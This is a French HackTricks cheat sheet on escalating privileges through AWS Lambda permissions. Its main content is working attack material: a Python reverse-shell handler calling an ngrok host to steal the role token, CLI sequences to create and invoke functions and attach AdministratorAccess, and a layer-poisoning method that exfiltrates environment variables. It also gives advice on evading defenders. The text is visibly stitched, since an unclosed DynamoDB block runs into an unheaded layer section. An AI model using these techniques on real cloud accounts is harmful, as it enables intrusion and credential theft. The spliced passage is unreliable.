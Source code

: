 # AWS - Privilège d'escalade Lambda

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## lambda

Plus d'informations sur lambda dans :

{% content-ref url="../../aws-security/aws-services/aws-lambda-enum.md" %}
[aws-lambda-enum.md](../../aws-security/aws-services/aws-lambda-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `lambda:CreateFunction`, (`lambda:InvokeFunction` | `lambda:InvokeFunctionUrl`)

Un utilisateur ayant les autorisations **`iam:PassRole`, `lambda:CreateFunction`** et **`lambda:InvokeFunction`** peut **escalader les privilèges en passant un rôle IAM existant à une nouvelle fonction Lambda** qui inclut du code pour importer la bibliothèque AWS pertinente dans leur langage de programmation préféré, puis l'utiliser pour effectuer des actions de leur choix. Le code pourrait ensuite être exécuté en invoquant la fonction via l'API AWS.

Un attaquant pourrait exploiter cela pour obtenir un **shell inversé et voler le jeton** :

{% code title="rev.py" %}
```python
import socket,subprocess,os,time
def lambda_handler(event, context):
   s = socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   s.connect(('4.tcp.ngrok.io',14305))
   os.dup2(s.fileno(),0)
   os.dup2(s.fileno(),1)
   os.dup2(s.fileno(),2)
   p=subprocess.call(['/bin/sh','-i'])
   time.sleep(900)
   return 0
```
{% endcode %}

```bash
# Zip le shell inversé
zip "rev.zip" "rev.py"

# Créer la fonction
aws lambda create-function --function-name my_function \
    --runtime python3.9 --role <arn_of_lambda_role> \
    --handler rev.lambda_handler --zip-file fileb://rev.zip

# Invoquer la fonction
aws lambda invoke --function-name my_function output.txt
## Si vous avez la permission lambda:InvokeFunctionUrl, vous devez exposer la fonction dans une URL et l'exécuter via l'URL

# Liste des rôles
aws iam list-attached-user-policies --user-name <user-name>
```

Vous pouvez également **exploiter les autorisations de rôle lambda** à partir de la fonction lambda elle-même.\
Si le rôle lambda avait suffisamment d'autorisations, vous pourriez l'utiliser pour vous accorder des droits d'administrateur :

```python
import boto3
def lambda_handler(event, context):
    client = boto3.client('iam')
    response = client.attach_user_policy(
        UserName='my_username',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    return response
```

**Impact potentiel :** Privilège d'escalade direct vers le rôle de service lambda spécifié.

{% hint style="danger" %}
Notez que même s'il peut sembler intéressant, **`lambda:InvokeAsync`** ne permet pas à lui seul d'exécuter `aws lambda invoke-async`, vous avez également besoin de `lambda:InvokeFunction`
{% endhint %}

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:AddPermission`

Comme dans le scénario précédent, vous pouvez **vous accorder la permission `lambda:InvokeFunction`** si vous avez la permission **`lambda:AddPermission`**

```bash
# Vérifiez l'exploit précédent et utilisez la ligne suivante pour vous accorder les autorisations d'invocation
aws --profile "$NON_PRIV_PROFILE_USER" lambda add-permission --function-name my_function \
   --action lambda:InvokeFunction --statement-id statement_privesc --principal "$NON_PRIV_PROFILE_USER_ARN"
```

**Impact potentiel :** Privilège d'escalade direct vers le rôle de service lambda spécifié.

### `iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateEventSourceMapping`

Un utilisateur ayant les autorisations **`iam:PassRole`, `lambda:CreateFunction` et `lambda:CreateEventSourceMapping`** (et éventuellement `dynamodb:PutItem` et `dynamodb:CreateTable`), mais **sans** la permission `lambda:InvokeFunction`, peut escalader les privilèges en **passant un rôle IAM existant à une nouvelle fonction Lambda** qui inclut du code pour importer la bibliothèque AWS pertinente dans leur langage de programmation préféré, puis l'utiliser pour effectuer des actions de leur choix. Ils devront ensuite soit **créer une table DynamoDB ou utiliser une table existante**, pour **créer un mappage de source d'événements pour la fonction Lambda pointant vers cette table DynamoDB**. Ensuite, ils devront soit mettre un élément dans la table, soit attendre qu'une autre méthode le fasse pour que la **fonction Lambda soit invoquée**.

```bash
aws lambda create-function --function-name my_function \
    --runtime python3.8 --role <arn_of_lambda_role> \
    --handler lambda_function.lambda_handler \
    --zip-file fileb://rev.zip
```

Où le **code** dans le fichier python **utilise le rôle ciblé**. Un exemple serait le même script utilisé dans les méthodes précédentes.

Après cela, la prochaine étape dépend de **l'utilisation de DynamoDB** dans l'environnement AWS actuel. **Si** elle est **utilisée**, tout ce qui doit être fait est de **créer le mappage de source d'événements** pour la fonction Lambda, mais si ce n'est pas le cas, l'attaquant devra **créer une table avec le streaming activé** avec la commande suivante :

```bash
aws dynamodb create-table --table-name my_table \
    --attribute-definitions AttributeName=Test,AttributeType=S \
    --key-schema AttributeName=Test,KeyType=HASH \
    --provisioned-throughput ReadCapacityUnits=5
#### Exploitation

**Attacher une couche à une fonction** ne nécessite que l'autorisation `lambda:UpdateFunctionConfiguration` et **les couches peuvent être partagées entre les comptes**. Nous devons également savoir **quelles bibliothèques ils utilisent**, afin que nous puissions les remplacer correctement, mais dans cet exemple, nous allons simplement **supposer que la fonction attaquée importe boto3**.

Pour être sûr, nous allons utiliser Pip pour installer la même version de la bibliothèque boto3 à partir de l'exécution Lambda que nous ciblons (Python 3.7), juste pour qu'il n'y ait rien de différent qui pourrait causer des problèmes dans la fonction cible. Cette exécution utilise actuellement la version 1.9.42 de boto3.

Avec le code suivant, nous installerons la version 1.9.42 de boto3 et ses dépendances dans un dossier local "lambda\_layer":

```
pip3 install -t ./lambda_layer boto3==1.9.42
```

Ensuite, nous ouvrirons `/lambda_layer/boto3/__init__.py` et ajouterons le code malveillant. La charge utile que nous allons ajouter ressemble à ceci:

![](<../../../.gitbook/assets/image (26).png>)

`requests` est importé de `botocore`. La fonction exfiltrera les variables d'environnement, et le try-except et le délai de 0,1 sont là pour s'assurer que ce code ne casse rien.

{% hint style="info" %}
**Note importante:** Vous ne devriez plus utiliser `from botocore.vendored import requests` dans de vrais tests de pénétration, car un "DeprecationWarning" sera imprimé dans les journaux CloudWatch de cette fonction, ce qui risque de vous faire repérer par un défenseur.
{% endhint %}

Maintenant, regroupez ce code dans un **fichier ZIP** et **téléchargez-le** dans une **nouvelle couche Lambda dans le compte ATTAQUANT**. Vous devrez d'abord créer un dossier "python" et y mettre vos bibliothèques afin que, une fois que nous l'aurons téléchargé dans Lambda, le code sera trouvé à "/opt/python/boto3". Assurez-vous également que la couche est compatible avec Python 3.7 et que **la couche est dans la même région que notre fonction cible**. Une fois cela fait, nous utiliserons `lambda:AddLayerVersionPermission` pour **rendre la couche publiquement accessible** afin que notre compte cible puisse l'utiliser. Utilisez vos informations d'identification AWS personnelles pour cet appel API.

```bash
aws lambda add-layer-version-permission --layer-name boto3 \
    --version-number 1 --statement-id public \
    --action lambda:GetLayerVersion --principal *
```

Maintenant, avec les **informations d'identification compromises** que nous avons, nous exécuterons la commande suivante sur notre fonction Lambda cible "s3-getter", qui **attachera notre couche Lambda inter-comptes**.

```
aws lambda update-function-configuration \
    --function-name s3-getter \
    --layers arn:aws:lambda:REGION:OUR-ACCOUNT-ID:layer:boto3:1
```

L'étape suivante consisterait à **appeler la fonction** nous-mêmes si nous le pouvons ou à attendre qu'elle soit appelée par des moyens normaux - ce qui est la méthode la plus sûre.

Une **manière plus discrète d'exploiter cette vulnérabilité** peut être trouvée dans:

{% content-ref url="../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md" %}
[aws-lambda-layers-persistence.md](../aws-persistence/aws-lambda-persistence/aws-lambda-layers-persistence.md)
{% endcontent-ref %}

**Impact potentiel:** Privilège direct d'accès au rôle de service lambda utilisé.

### `?iam:PassRole`, `lambda:CreateFunction`, `lambda:CreateFunctionUrlConfig`, `lambda:InvokeFunctionUrl`

Peut-être qu'avec ces autorisations, vous pouvez créer une fonction et l'exécuter en appelant l'URL... mais je n'ai pas trouvé de moyen de le tester, alors faites-le moi savoir si vous le faites !

### Lambda MitM

Certaines fonctions Lambda vont **recevoir des informations sensibles des utilisateurs dans les paramètres**. Si vous obtenez une RCE dans l'une d'entre elles, vous pouvez exfiltrer les informations que d'autres utilisateurs lui envoient, vérifiez-le dans:

{% content-ref url="../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

<details>

<summary><strong>Soutenez HackTricks et obtenez des avantages !</strong></summary>

* Si vous voulez voir votre **entreprise annoncée dans HackTricks** ou si vous voulez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF** Consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>